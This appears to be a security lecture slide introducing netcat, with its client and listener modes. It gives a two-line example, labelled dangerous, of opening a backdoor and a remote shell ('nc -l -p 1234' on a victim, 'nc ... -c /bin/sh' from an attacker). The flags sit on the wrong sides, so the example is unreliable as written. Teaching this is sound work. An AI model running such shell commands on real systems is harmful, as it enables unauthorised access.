

# Netcat Tool
Similar to Linux cat command
http://netcat.sourceforge.net/
Client: Initiates connection to any port on remote machine
Server: Listens on any port
To open a shell on a victim machine
On victim machine: nc –l –p 1234
/* This opens a backdoor */

On attacker machine: nc 123.32.34.54 1234 –c /bin/sh
/* This enters through a backdoor, opens a shell */

Dangerous